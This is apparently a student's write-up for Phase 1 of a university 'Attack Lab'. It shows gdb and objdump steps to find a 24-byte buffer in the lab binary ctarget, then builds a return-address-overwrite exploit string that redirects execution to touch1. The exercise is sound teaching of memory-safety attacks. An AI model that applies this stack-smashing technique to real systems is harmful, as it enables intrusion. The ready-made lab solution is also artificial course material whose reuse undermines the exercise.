 # CSCI 3160 Attack Lab Report

### **Phase 1**
Phase 1 is the first part of the Attack Lab and this is done on ctarget. In this phase, we are trying to smash the stack with our exploit string and change the return address of the **getbuf** function to the address of **touch1**, and call it. 

We first need to find how large our buffer is by looking at the disassembled code. 

Run ctarget in gdb
```
gdb ctarget
```

Next, set a breakpoint at the getbuf function

```
b getbuf
```

Run GDB, then take a look at the disassembled code

```
disas
 ```

The buffer is constant during runtime and mine is **$0x18**, which is 24 bytes.

```
Dump of assembler code for function getbuf:
=> 0x0000000000401cf4 <+0>:     endbr64
   0x0000000000401cf8 <+4>:     sub    $0x18,%rsp
   0x0000000000401cfc <+8>:     mov    %rsp,%rdi
   0x0000000000401cff <+11>:    call   0x401fbd <Gets>
   0x0000000000401d04 <+16>:    mov    $0x1,%eax
   0x0000000000401d09 <+21>:    add    $0x18,%rsp
   0x0000000000401d0d <+25>:    ret
End of assembler dump.
```

Now that we have find the size of the buffer, next we need to find the address of **touch1**.

To find the address of **touch1**, look through the disassembled code of ctarget.

```
objdump -d ctarget > ctarget.txt
```
Next, open with an editor like VIM
```
vim ctarget.txt
```
Type ```/touch1``` to jump to it.

```
0000000000401d0e <touch1>:
  401d0e:   f3 0f 1e fa             endbr64
  401d12:   50                      push   %rax
  401d13:   58                      pop    %rax
  401d14:   48 83 ec 08             sub    $0x8,%rsp
  401d18:   c7 05 e6 47 00 00 01    movl   $0x1,0x47e6(%rip)        # 406508 <vlevel>
  401d1f:   00 00 00
  401d22:   48 8d 3d 05 25 00 00    lea    0x2505(%rip),%rdi        # 40422e <_IO_stdin_used+0x22e>
  401d29:   e8 72 f5 ff ff          call   4012a0 <puts@plt>
  401d2e:   48 8b 3d 2b 44 00 00    mov    0x442b(%rip),%rdi        # 406160 <stdout@GLIBC_2.2.5>
  401d35:   e8 66 f6 ff ff          call   4013a0 <fflush@plt>
  401d3a:   bf 01 00 00 00          mov    $0x1,%edi
  401d3f:   e8 d6 03 00 00          call   40211a <validate>
  401d44:   bf 00 00 00 00          mov    $0x0,%edi
  401d49:   e8 c2 f6 ff ff          call   401410 <exit@plt>
```

Touch1 Address: ```0x401d18```

Finally, create a file named **ctarget.lv1** and fill in your buffer size with padding. Next, enter the address of **touch1** and make sure it is in little-endian (make sure to add padding at the end too.)

It should look something like this

```
/* My buffer is 24 bytes */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00

/* Ret Address of Touch1 */
/* 401d18 */
18 1d 40 00 00 00 00 00
```

Now to run this through the program **hex2raw**, enter the following

```
./hex2raw < ctarget.lv1 | ./ctarget
```

Congrats!, you have passed Phase 1.
